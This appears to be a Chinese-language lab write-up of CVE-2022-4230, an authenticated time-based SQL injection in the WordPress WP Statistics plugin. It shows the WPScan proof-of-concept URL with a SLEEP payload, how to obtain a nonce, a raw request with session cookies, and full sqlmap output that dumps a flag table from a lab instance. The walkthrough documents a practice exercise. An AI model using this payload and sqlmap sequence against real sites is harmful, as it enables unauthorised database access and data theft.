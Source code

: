 ```yaml
---
title: "CVE-2022-4230"
date: 2024-07-24
tags: ["春秋云镜","CVE","WordPress"]
featured_image: "https://static.guyu.pro/yunjing.ichunqiu.com/CVE.webp"
draft: false
---
```


<https://wpscan.com/vulnerability/a0e40cfd-b217-481c-8fc4-027a0a023312>


## WP Statistics &lt; 13.2.9 - Authenticated SQLi


### Description

The plugin does not escape a parameter, which could allow authenticated users to perform SQL Injection attacks. By default, the affected feature is available to users with the manage_options capability (admin+), however the plugin has a settings to allow low privilege users to access it as well.

### Proof of Concept

```http
Log in as a user allowed to View WP Statistic and get a nonce via 

https://example.com/wp-admin/admin-ajax.php?action=rest-nonce

, and use it in the URL below, which will be delayed by 5s:

http://example.com/wp-json/wp-statistics/v2/metabox?_wpnonce=NONCE&name=words&search_engine=aaa%27%20AND%20(SELECT%205671%20FROM%20(SELECT(SLEEP(5)))Mdgs)--%20HsBR
```

## 演示

环境: [春秋云镜 免费空间>CVE-2022-4230](https://yunjing.ichunqiu.com/cve/detail/1165)

### 1.登录

站点名称 test  尝试 用户名`test` 密码 `test`

![](https://static.guyu.pro/yunjing.ichunqiu.com/1165/1.webp)

![](https://static.guyu.pro/yunjing.ichunqiu.com/1165/2.webp)


### 2.验证

<http://eci-2zeem9trz06di7iavwqk.cloudeci1.ichunqiu.com/wp-admin/admin-ajax.php?action=rest-nonce>

![](https://static.guyu.pro/yunjing.ichunqiu.com/1165/3.webp)

获得`373ec6388f`

替换利用url的NONCE值为`373ec6388f`

<http://eci-2zeem9trz06di7iavwqk.cloudeci1.ichunqiu.com/wp-json/wp-statistics/v2/metabox?_wpnonce=373ec6388f&name=words&search_engine=aaa%27%20AND%20(SELECT%205671%20FROM%20(SELECT(SLEEP(5)))Mdgs)--%20HsBR>

![](https://static.guyu.pro/yunjing.ichunqiu.com/1165/4.webp)

### 3.利用

<http://eci-2zeem9trz06di7iavwqk.cloudeci1.ichunqiu.com/wp-json/wp-statistics/v2/metabox?_wpnonce=373ec6388f&name=words&search_engine=aaa> 因为要在已登录状态注入，需要带上cookie

![](https://static.guyu.pro/yunjing.ichunqiu.com/1165/5.webp)

保存为1165，在url地址参数`search_engine=aaa`后添加`*`，让sqlmap指定位置注入

```http
GET /wp-json/wp-statistics/v2/metabox?_wpnonce=373ec6388f&name=words&search_engine=aaa* HTTP/1.1
Host: eci-2zeem9trz06di7iavwqk.cloudeci1.ichunqiu.com
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_2d0601bd28de7d49818249cf35d95943=1721788611; Hm_lpvt_2d0601bd28de7d49818249cf35d95943=1721788611; HMACCOUNT=2484925BEB32E239; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_c2b05042e81e305748a3152f767ae796=test%7C1721961933%7C6aDuiQPvnYxV9n8rJoFMRrb2lLidmM44qJCWIkWBhpL%7C760092fb3e6b0d9fc2c20b27b5f932cc58550f89e95c485856a99d346212a418; wp-settings-time-1=1721789134
Connection: close
```

使用sqlmap注入

```bash
$ sqlmap -r 1165
[23:16:02] [INFO] parsing HTTP request from '1165'
custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] y
[23:16:04] [INFO] testing connection to the target URL
[23:16:04] [INFO] testing if the target URL content is stable
[23:16:05] [INFO] target URL content is stable
[23:16:05] [INFO] testing if URI parameter '#1*' is dynamic
[23:16:05] [WARNING] URI parameter '#1*' does not appear to be dynamic
[23:16:05] [WARNING] heuristic (basic) test shows that URI parameter '#1*' might not be injectable
[23:16:05] [INFO] testing for SQL injection on URI parameter '#1*'
[23:16:05] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[23:16:06] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[23:16:06] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[23:16:07] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[23:16:08] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[23:16:08] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[23:16:09] [INFO] testing 'Generic inline queries'
[23:16:09] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[23:16:10] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[23:16:11] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[23:16:11] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[23:16:22] [INFO] URI parameter '#1*' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] y
[23:16:35] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[23:16:35] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[23:16:39] [INFO] checking if the injection point on URI parameter '#1*' is a false positive
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 75 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://eci-2zeem9trz06di7iavwqk.cloudeci1.ichunqiu.com/wp-json/wp-statistics/v2/metabox?_wpnonce=373ec6388f&name=words&search_engine=aaa' AND (SELECT 8907 FROM (SELECT(SLEEP(5)))nhIB) AND 'aFnu'='aFnu
---
[23:17:06] [INFO] the back-end DBMS is MySQL
[23:17:06] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
web application technology: PHP 7.4.33
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[23:17:49] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/eci-2zeem9trz06di7iavwqk.cloudeci1.ichunqiu.com'

$ sqlmap -r 1165 --batch --current-db
current database: 'wordpress'

$ sqlmap -r 1165 --batch --tables -D wordpress
[23:31:20] [INFO] retrieved: flag

$ sqlmap -r 1165 --batch --dump -D wordpress -T flag
Database: wordpress
Table: flag
[1 entry]
+--------------------------------------------+
| flag                                       |
+--------------------------------------------+
| flag{7f698f8b-2cde-4f19-ab79-5e96778812d4} |
+--------------------------------------------+
```

